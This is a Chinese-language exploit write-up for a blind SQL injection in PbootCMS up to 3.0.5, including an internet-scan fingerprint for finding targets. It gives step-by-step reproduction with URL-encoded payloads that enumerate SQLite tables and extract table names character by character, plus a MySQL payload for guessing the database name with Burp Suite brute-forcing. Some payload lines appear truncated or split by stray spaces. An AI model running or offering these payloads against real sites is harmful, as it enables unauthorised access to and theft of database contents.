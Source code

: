 # PbootCMS domain SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS <= 3.0.5
```

## 网络测绘

```
app="PBOOTCMS"
```

## 漏洞复现

本地搭建最新版本,访问首页

![image-20220518155003298](./images/202205181550559.png)

我们需要访问一个存在的页面

url中13后加个单引号 `'`，若为执行sql报错相关,则漏洞存在

![image-20220518155017186](./images/202205181550238.png)

若显示下图，则漏洞无法利用

![image-20220518155030427](./images/202205181550475.png)

程序默认搭建为sqlite3数据库, Fuzz当前数据库表单payload

```
')%0aand%0a(SELECT%0acount(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d'ta ble'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%')<40--
```

![image-20220518155108672](./images/202205181551731.png)

通过此payload进行盲注Fuzz数据库中表单总数是否小于40

查询为真返回正常,假则报错

![image-20220518155128134](./images/202205181551193.png)

由此我们可以准确推断出表单总数

计算sqlite数据库中第一个表名长度,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0alength(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d't able'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a
```

![image-20220518155148056](./images/202205181551121.png)

猜解第一个表名称,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0asubstr(tbl_name,1,1)%0aFROM%0asqlite_master%0aWHERE%0atype% 3d'table'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimi
```

![image-20220518155205342](./images/202205181552408.png)

这样可以得到数据库第一个表的第一位数值为字符串"a"

通过substr()函数,我们可以很轻松的得到表名称.

同理可获取其他数据

#### 在Mysql下的利用方式

猜解当前数据库名称 可以使用如下payload进行Fuzz:

```
')%0aand%0a(select%0asubstr(database(),1,1)%3d'p')%23
```

查询为真时页面将返回正常.

使用Burpsuite可以爆破出数据库名称,其他表名字段名等方法相同